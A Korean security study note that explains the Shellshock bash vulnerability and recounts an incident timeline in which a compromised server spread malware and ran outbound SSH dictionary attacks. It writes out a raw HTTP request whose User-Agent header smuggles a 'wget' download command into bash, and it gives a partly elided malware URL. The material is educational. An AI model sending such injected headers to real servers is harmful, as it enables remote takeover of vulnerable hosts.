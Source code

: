 # 보안 위협 정보 수집

## 보안 위협 이해

### 애플리케이션 취약점

2014년에 발생할 셸 쇼크(CVE-2014-6271, CVE-2014-7169) 취약점에 대해 알아보자.

2014년 9월 사용된 공격 방식은 bash 환경 변수로 저장되는 헤더 항목에 공격 구문을 삽입해 취약한 시스템을 공격하는 방식이었다.

```bash
telnet [ip] 80
GET /cgi-bin/test-cgi
...
User-Agent: (){:;}; wget -O /tmp/tmp # wget 명령을 이용해 다운로드한 파일을 tmp 디렉터리에 tmp 파일명으로 저장한다
```

대부분의 해킹 공격은 취약한 시스템을 공격하는 걸로 끝나지 않고, 자동화된 공격을 통해 취약한 시스템 접근을 확보한 후에 경유 시스템으로 많이 사용된다.

사례를 살펴보면

* 11/4: IDC 서버 이상 발견
  11/3 12:00부터 외부로 불생된 SSH 사전식 대응 공격 확인

* 11/4: 원인 분석 수행(침해사고 분석)
  BashShell 취약점 공격 확인
  악성코드 유입: http:// ... /bbs/skin/zero_vote/cpan_root

* 분석 결과 요약
  11/01: Bash shell 취약점 공격, 악성코드 설치
  11/03: 외부로 SSH 무작위 사전식 대입 공격
  11/04: 사고 인지 후 시스템 분석

많은 경우 관리 허점을 이용하며, 아직도 2006년 발표된 제로보드 취약점이 사용되고 있다.

### 지능형 지속 공격

